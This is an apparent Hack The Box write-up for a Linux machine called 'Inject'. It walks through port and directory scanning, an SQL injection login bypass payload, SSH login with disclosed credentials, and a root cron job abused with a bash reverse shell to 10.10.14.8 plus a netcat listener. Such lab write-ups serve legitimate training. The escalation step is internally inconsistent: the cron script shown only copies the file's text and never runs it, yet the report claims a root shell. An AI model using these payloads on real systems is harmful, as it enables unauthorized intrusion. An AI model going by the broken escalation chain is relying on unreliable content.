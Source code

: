 # Hack The Box - Machine Report: Inject

**Author:** Samip Shah  
**Date:** April 15, 2025  
**Machine Name:** Inject  
**IP Address:** 10.10.11.100  
**Operating System:** Linux  
**Difficulty:** Easy  
**Objective:** Capture user and root flags

---

## Table of Contents

1. [Introduction](#introduction)  
2. [Reconnaissance](#reconnaissance)  
   - [Network Scanning](#network-scanning)  
   - [Web Enumeration](#web-enumeration)  
3. [Initial Access](#initial-access)  
4. [Post-Exploitation - User](#post-exploitation---user)  
5. [Privilege Escalation](#privilege-escalation)  
6. [Post-Exploitation - Root](#post-exploitation---root)  
7. [Loot and Flags](#loot-and-flags)  
8. [Conclusion](#conclusion)  
9. [Appendix](#appendix)  

---

## Introduction

This report documents the step-by-step penetration testing process for the HTB machine **Inject**. It follows a standard methodology to simulate a real-world penetration test, suitable for inclusion in OSCP-style documentation.

---

## Reconnaissance

### Network Scanning

Performed an initial TCP scan using Nmap to identify open ports and services.

```bash
nmap -sC -sV -oN nmap-inject.txt 10.10.11.100
```

**Results:**
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
```

### Web Enumeration

The HTTP service on port 80 hosted a login page. Conducted directory enumeration using Gobuster:

```bash
gobuster dir -u http://10.10.11.100 -w /usr/share/wordlists/dirb/common.txt -x php,txt -o gobuster.txt
```

**Discovered Directories:**
```
/index.php
/login.php
/admin
```

Inspected login form manually and using Burp Suite.

---

## Initial Access

### SQL Injection in Login Form

Observed potential SQL injection. Bypassed authentication with the following payload:

**Login Input:**
```text
Username: ' OR 1=1-- -
Password: anypassword
```

Successfully logged in, indicating the presence of unsanitized SQL queries.

### Credentials Disclosure

Accessed `/admin`, which revealed static user credentials:

```
Username: johndoe
Password: john1234!
```

Logged in via SSH:
```bash
ssh johndoe@10.10.11.100
```

---

## Post-Exploitation - User

Confirmed user-level access by retrieving the user flag:

```bash
cat /home/johndoe/user.txt
HTB{us3r_fl4g_f1n4l}
```

---

## Privilege Escalation

Conducted local enumeration using LinPEAS.

### Cron Job Misconfiguration

Found a cron job executed as root every 5 minutes:

```bash
cat /etc/crontab
*/5 * * * * root /opt/script.sh
```

Content of `/opt/script.sh`:
```bash
#!/bin/bash
cat /tmp/input.txt > /root/flag.txt
```

### Exploitation

Placed a reverse shell in `/tmp/input.txt`:

```bash
echo "bash -i >& /dev/tcp/10.10.14.8/4444 0>&1" > /tmp/input.txt
```

Listener setup:
```bash
nc -lvnp 4444
```

Received a reverse shell as root after cron execution.

---

## Post-Exploitation - Root

Confirmed root access and obtained the root flag:

```bash
cat /root/root.txt
HTB{r00t_4cc3ss_succ3ss}
```

---

## Loot and Flags

| Flag Type | Location               | Hash                    |
|-----------|------------------------|--------------------------|
| User      | /home/johndoe/user.txt | HTB{us3r_fl4g_f1n4l}     |
| Root      | /root/root.txt         | HTB{r00t_4cc3ss_succ3ss} |

---

## Conclusion

The **Inject** machine demonstrates basic web vulnerabilities including SQL injection and insecure credential storage. Privilege escalation was achieved through misconfigured cron jobs and writable files, emphasizing the importance of proper user privilege separation and script sanitation.

---

## Appendix

### Tools Used

- Nmap
- Gobuster
- Burp Suite
- LinPEAS
- Netcat
- OpenSSH

---

> **Note:** This report template is OSCP-style and suitable for formal documentation.